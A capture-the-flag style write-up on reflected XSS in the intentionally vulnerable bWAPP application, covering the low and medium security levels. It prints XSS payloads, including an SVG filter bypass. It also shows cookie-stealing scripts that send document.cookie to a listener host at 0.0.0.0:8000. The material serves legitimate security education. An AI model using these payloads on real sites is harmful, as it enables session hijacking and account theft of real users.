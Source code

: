# Reflected XSS (GET)
---

Choose your language / Выберите язык:

- 🇬🇧 [English](WRITEUP.en.md)
- 🇷🇺 [Русский](WRITEUP.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges based on the ***Cross-Site Scripting (XSS) vulnerability***. (**A03:2021 - Injection**)

***SECURITY LEVELS COVERED***
- Low
- Medium

# Target
---

![[XssReflectedTarget.png]]

# Functionality
---

![[XssReflectedFunction.png]]

# Exploitation (phase 1)
---

Testing for Reflected XSS by passing a simple XSS payload in the `lastname` field through BurpSuite or directly on the client side:

#### Payload (Security level - low)

```HTML
<script>alert("Basic XSS")</script>
```

## BurpSuite

![[XssReflectedGetBurp.png]]

## Browser

![[XssReflectedBrowser.png]]

## Result

![[XssReflectedSuccess.png]]

The application is vulnerable to Reflected XSS. This vulnerability can be used to steal cookies of other users.

Note: For `medium` and `high` security levels in BWAPP, the payloads will differ due to implemented security measures.

## Exploitation (Phase 2)
---

An HTTP server can be set up using Python with the command:

```Bash
python3 -m http.server "port"
```

I didn't specify the port, and the server started on port `8000`.

When a user visits a URL with this payload embedded:

```HTML
<script> var pic = new Image(); pic.src = "http://0.0.0.0:8000/steal.php?cookie=" + document.cookie; </script>
```

Their cookies will be sent to the HTTP server running on port `8000`.

Visiting the URL as the default `bee/bug` user resulted in successful cookie theft:

![[XssReflectedCookieTheftTest.png]]
(PHPSESSID contains a token used for user authentication)

Now let's simulate victim interaction:

![[XssReflectedMamont1.png]]

I created a victim user and used their credentials to log into BWAPP.

Once the victim follows the malicious link (which in the real world is typically provided through social engineering methods), the cookie value is sent to the attacker's server:

![[XssReflectedMamont2.png]]

It worked! The `Mamont` user's cookies were successfully compromised without their knowledge:

![[XssReflectedMamontCookie.png]]
(For clearer output, I restarted the server instance)

## Medium-level Approach
---

BWAPP at `medium` security level implements defense measures against basic XSS payloads:

```HTML
<script>alert("Basic XSS")</script>
```

However, the `svg`-based payload bypasses the filters, resulting in successful code execution:

```HTML
<svg onload=alert(1)>
```

### Medium-level cookie theft payload

This payload is similar to the low-level approach but uses `svg`:

```HTML
<svg xmlns="http://www.w3.org/2000/svg" onload="var pic=new Image(); pic.src='http://0.0.0.0:8000/steal.php?cookie=' + document.cookie;">
</svg>
```